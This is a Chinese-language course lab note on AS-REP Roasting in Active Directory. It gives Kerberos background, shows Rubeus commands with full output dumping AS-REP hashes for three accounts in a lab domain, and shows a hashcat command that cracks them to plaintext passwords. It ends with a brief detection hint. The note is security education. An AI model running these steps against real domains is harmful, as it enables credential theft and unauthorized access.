 ```yaml
---
title: NTUSTISC - AD Note - Lab(AS-REP Roasting)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(AS-REP Roasting)
<!-- more -->
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=CRVWKo4tnpx3LqxK)

## Background
[第十四章 Kerberos 認證系統](https://www.tsnien.idv.tw/Security_WebBook/chap14/14-4%20Kerberos%20%E8%AA%8D%E8%AD%89%E7%B3%BB%E7%B5%B1%E7%B0%A1%E4%BB%8B.html)
* 簡介：這是一種計算機網路授權協議，簡單說如果在同一個domain底下，想要存取某一個server的某項服務，則要如何驗證該使用者的身分以及授權他使用該項服務的資格?換個角度想，如果不認證會怎麼樣?首先，如果不認證使用者身分，就直接讓授權使用該項服務，則最直觀的攻擊就是DoS，或是駭客可以透過該項服務打到內網$\to$提權$\to$橫向移動$\to$APT，看起來很危險；另外一方面，如果有驗證身分，但通過驗證的人一率給予使用服務的授權，又會怎麼樣?可以利用eavesdropping得到授權的ticket再利用reply attack還是可以偽造身分
* 提醒：Windows Kerberos和MIT Kerberos在實作上有一點不一樣，如果想要知道windows kerberos可以看飛飛的文章[^feifei-ad-kerberos-1][^feifei-ad-kerberos-2]，然後自行比對粘添壽老師的影片
* MIT Kerberos架構：
    ![](https://www.tsnien.idv.tw/Security_WebBook/Security_%E6%8F%92%E5%9C%96/%E5%9C%96%2014-8.png)
    為了防止前面提到的問題，他增加了一個TGS的Server，但純控管tickets的發放，另外在驗證上面也增加了timestamp和請求方的網路位址，這樣就可以防止reply attack，而且短時間內都不需要再進行身分認證，很方便
* Windows Kerberos架構：
    ![](https://hackmd.io/_uploads/BkTzOxN1T.png)
* 優點
    > * 主密鑰分配：AS 伺服器除了必須擁有客戶的主密鑰之外，還必須擁有 TGS 的主密鑰；另外，TGS 伺服器也需要擁有所有伺服器的主密鑰。這就是 Kerberos 將所有參與者都稱為 Principal 的主要原因。
    > * 客戶密碼只要輸入一次：客戶端取得通往 TGS 的門票（TicketTGS）之後，在該票的有效期限之內，都可以請求服務，而不需要再輸入密碼來索取門票。
    > * 防禦偽裝攻擊：門票（TicketTGS與 TicketB）上有登錄該票的使用者識別（ID）、工作站位址（AD）、時間戳記（TS）與有效期間（Lifetime）。攻擊者攔截到門票之後，不易在在有效期內偽裝成合法客戶。
    > * 防止重播攻擊：門票有註明時間戳記（T），當攻擊者重播門票時，接收端可以利用時間戳記辨別門票的新舊。


## Lab

### ==AS-REP Roasting==
* 攻擊情境：在Win2016的Server Manager中的Tools可以找到Active Directory User and Computer
    ![](https://hackmd.io/_uploads/H1JCrlEyT.png)
    在一般user的property中，可以看到Account/Account options最底下有一個選項==Do not require Kerberos preauthentication==，這個功能主要是前面提到的對於身分不會認證(1, 2步驟會略過，只執行3-6)，他只會認證後面的ticket
    ![](https://hackmd.io/_uploads/BJidLxV1a.png)
    雖然預設是不勾選，但有兩種情況會打勾
    1. 如果被駭客打進去到最高管理員，當然它會勾選這個功能方便搞事(所有帳號)
    2. 因為windows有分版本，如果要向下兼容各版本之間的認證，則該選項就一定要勾選(這也是為甚麼講師在前面有提到一定要升級AD的舊環境)，這在很古老的系統中常常發生
* 滿足條件：只要前面提到的功能被打開，就可以進行AS-REP Roasting
* 如何攻擊：
    * 自己把Microsoft的document看懂如何pack一個packet，然後自己實作
    * 另一種方式就直接用工具[Rubeus 1.6.4](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)，他可以直接把有勾選該項目的帳號，送出AS-REQ的請求，然後接收AS-REP的回應，並把接收到的tickets以你指定的格式印出來
    * Cheat Sheet:
    ```bash
    $ Rubeus.exe asreproast
    $ Rubeus.exe asreproast /format:hashcat /outfile:out.txt
    ```
---

#### 實際執行
1. Using Rubeus.exe
:::spoiler Result
```bash!
$ Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: AS-REP roasting

[*] Target Domain          : kuma.org

[*] Searching path 'LDAP://WIN-818G5VCOLJO.kuma.org/DC=kuma,DC=org' for AS-REP roastable users
[*] SamAccountName         : reyna.gwendolyn
[*] DistinguishedName      : CN=Reyna Gwendolyn,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\reyna.gwendolyn'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$reyna.gwendolyn@kuma.org:4B08601B0A55BA231BED4333EAA6ED9C$E146006C2F6
      B5EF8D78D4280E646FA601860D754261C28DC48470F2EA99E75DFD03E53F4BAC09BD1BE9697C5918
      C48E5BA6A64D51A550FC6833327EBEF9A0C62F2448BA3CA3AA7D9BD375BF8BE693B1BC199A442053
      AC3A40FA3F29EE3ABFB9B1B1E1C31DDD508FAB7971F1FDCE057D5A4481678511188DB99921762116
      934D04C72071DAACFC6FFA8250380CD9ECECF95CC5702FD7A67AB90F18C299BB9AD8FF4A9325730E
      859F2105F1AF64E170EB118111414CC44D0CDD1199860EF0D99ECD33FB618FEDCFAE96E0DFB75A4D
      9EF3C06C99DBBD9C0A69A344C4C5A65B5B702152081F9

[*] SamAccountName         : henrieta.sabine
[*] DistinguishedName      : CN=Henrieta Sabine,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\henrieta.sabine'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$henrieta.sabine@kuma.org:DEBC5F5111CE6D774625EB3DCC14925A$A91DD569550
      A48219DAC0F53E4114DA7027E073DD6A86EFC83C79206787A84DBF6FC7F4B5168D7CBE65B073A05B
      B13AF1514D32D787948F91E05FF40191B6FE7819B9F5A978377D82B5E9532688B1CF28BBA1370365
      68C110CAB41FEC26D262DC422CB54B678456470AE34F23B6D2CB1597E9565CACD11C1C5F9683408B
      241650007B0E162C40D7694D8F5A5154254E0A54829C7784EB5493DF15812271C3161DD5937B368B
      93406383215D909289E3FE096A10D396EF662C02031E6D4352C6A411EEC38B0A1D02A2E0AB03C86E
      CBF9C07C441C4D5EBD4269400373A2AFAD5879293B856

[*] SamAccountName         : giulietta.moyra
[*] DistinguishedName      : CN=Giulietta Moyra,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\giulietta.moyra'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$giulietta.moyra@kuma.org:11CD5E39C2CEA9695C50826E6FCA66D3$9E2B2F3ED60
      5D93BF02721F921D09DE188F1F7F3BE23907A73B95B30ECB0C1CFF5C68A0E814931A6A839DC1098C
      2F3EF8B0A68492CA16E6CD96C843373581DD8CF14F7F58AE9B63A4717D1E8F7C2AA56DAC959F589C
      1533249CA5BF72BBFC833609A0D958B7B5E692632D3557678B671E65C092494B38FC3840D09E16F4
      1FE8D1BB86FAF16BD3F39E4E8CF8AC07A10FCD20E947D3A496A4204350D1E3B0448DB92AE749F3D0
      7A9D1582677A5958B70DD38E2CDFC914C2848D0F9BC0E78D65AB7F3B9E1B5AFFA53588FBD7FFB297
      357047776932B4EA2405ECB5705418BDE7CB8DBE725BB
```
:::
可以看到他總共吐出了三個hash，分別對應到三個使用者：<font color="FF0000">reyna.gwendolyn, henrieta.sabine, henrieta.sabine</font>，如果仔細對應win2016相對使用者的property會發現的確，這三個user的該選項都有打勾，現在則是利用hashcat之類的工具把hash暴力解開

2. Using Hashcat
可以直接在Kali使用hashcat，不過我是直接在windows上操作，可以參考[^hashcat-instruction]，講解的非常詳細
```bash!
$ hashcat.exe -m 18200 -a 3 ".\Kerberos-AS-REP.txt" -o output.txt
```

Output Result
```bash!
$krb5asrep$23$giulietta.moyra@kuma.org:eb292e4b9e547357db6500d982df775b$2def9955e12f072fdc189adcde61dbff3939f7cfda5c84583c78335edfff1c5d246e3c311b991e26c0ca7afbb97757a2751a521b596e9da9a3ffcbec31205b61e45473cfbff58046f5a9759aa186ebbb90894749b2f0cbd91d6558e8f0750aab7c0b46d8947f843327f9dceb94c4b4043ee902856f3c01493e353c28cd956aaa0c58c6ded536e11855d4584aeed3486e379f91199eb96808631f2b72f0443e637cc66268bc8dd87528daf96b28de8fbccae28aa52b38f5069e5aa2c9b4dd9e21ed77ac30d6602459376a8a791d133f577024c43cae1ac8bd973d39e191ba535c0f660b0e:willow
$krb5asrep$23$reyna.gwendolyn@kuma.org:ef97037a66f7cedcacf9aeae90e8d8cc$930cc1157dfee8d506c728f11184963e4011a0254ea83428aaf529de9c2a10c533ff12c0b6f519aad9c65a7fa6a645e6552f57936001c8b8011bbf1f3f93981bd6126befb0dd74b1df7930336f240f623d1d9e53bbb5e37864559d37ee3f1a0edd319a7252a3b6bab5b50d81967abc630eccb804dd200218b7222914776d71387c2916353c3475426515aaa5b95108b9e9ae68c8ece2dfeeaf7836dd9f3778c49c4090850925332470b9eab9c77c4549237a17f58e41b0b09a1be6a99827f5b14d78a734300bb08056c40a28b6f69fa2c7b72afa7d18d831631b19b7cbcc5a6dc928d66d:edward
$krb5asrep$23$henrieta.sabine@kuma.org:cef1cda05e49376d4749ace914595ea1$43d6d77a9de81c2e1c6a00fd7ea6bbb2dc087e26568ae31ab08f2b6887ccfa427ca59fab8dd7bd69d3c2b13b5f1c4ec2dff56f975940d1096eac8bca440c5adafa49e5e8b57d3cc7fddf83a71fef5353a3e3e2a85a6269a39a007bd5272ef40ba721b30313a2054d684e8efe81b214a79af9e1d5d75b1746070486a0d90e79123d1c881a56d190a7c76f1ad951695faee37f64f7f063fd38f2d7af0476747d10c5d16540c34396a0e752aaa820b4147396829affd62b99de0fa6fd0fba13a5271d5fd8b6484a7e9ef52526d0b6cef84f1ab4c939dc977e967bd12c98ca6fb55508d1a770:therock
```
這三者的密碼就被爆出來了，分別是
giulietta.moyra$\to$willow
reyna.gwendolyn$\to$edward
henrieta.sabine$\to$therock

#### ==How to detect it?==
Event ID: 4768(預設不開，因為在一般中大型公司中，開了這個所收到的event會超多，所以除非做好filter不然一般不開)

## Reference
[^feifei-ad-kerberos-1]:[AD Security - [Day7] 一起來學 AD 安全吧！：AD 驗證協定 Kerberos (1) ](https://ithelp.ithome.com.tw/articles/10296583)
[^feifei-ad-kerberos-2]:[AD Security - [Day8] 一起來學 AD 安全吧！：AD 驗證協定 Kerberos (2) ](https://ithelp.ithome.com.tw/articles/10297185)
[^hashcat-instruction]:[【教學】密碼恢復工具 Hashcat簡易基本教學(windows7/10)](https://home.gamer.com.tw/creationDetail.php?sn=3669363)